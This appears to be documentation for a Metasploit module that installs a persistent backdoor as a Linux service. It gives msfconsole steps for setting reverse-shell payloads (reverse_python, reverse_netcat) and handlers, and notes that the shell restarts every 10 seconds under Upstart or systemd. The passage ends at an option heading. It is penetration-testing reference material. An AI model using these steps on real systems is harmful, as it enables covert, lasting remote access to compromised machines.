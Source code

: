 ### Creating A Testing Environment

  This module has been tested against:

1. Kali 2.0 (System V)
2. Ubuntu 14.04 (Upstart)
3. Ubuntu 16.04 (systemd)
4. Centos 5 (System V)
5. Fedora 18 (systemd)
6. Fedora 20 (systemd)

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use exploit/linux/local/service_persistence`
  4. Do: `set session #`
  5. Do: `set verbose true`
  6. Do: `set payload cmd/unix/reverse_python` or `payload cmd/unix/reverse_netcat` depending on system.
  7. Optional Do: `set SHELLAPTH /bin` if needed for compatibility on remote system.
  8. Do: `set lhost`
  9. Do: `exploit`
  10. Do: `use exploit/multi/handler`
  11. Do: `set payload cmd/unix/reverse_python` or `payload cmd/unix/reverse_netcat` depending on system.
  12. Do: `set lhost`
  13. Do: `exploit -j`
  14. Kill your shell (if System V, reboot target).  Upstart/systemd wait 10sec
  15. Get Shell

## Options

**target**

  There are several targets selectable, which all have their own issues.

0. Automatic: Detect the service handler automatically based on running `which` to find the admin binaries
1. System V: There is no automated restart, so while you'll get a shell, if it crashes, you'll need to wait for a init shift to restart the process automatically (like a reboot).  This logs to syslog or /var/log/<process>.log and .err
2. Upstart: Logs to its own file.  This module is set to restart the shell after a 10sec pause, and do this forever.
3. systemd and systemd user: This module is set to restart the shell after a 10sec pause, and do this forever.

**SHELLPATH**
  
  If you need to change the location where the backdoor is written (like on CentOS 5), it can be done here.  Default is /usr/local/bin

**SERVICE**
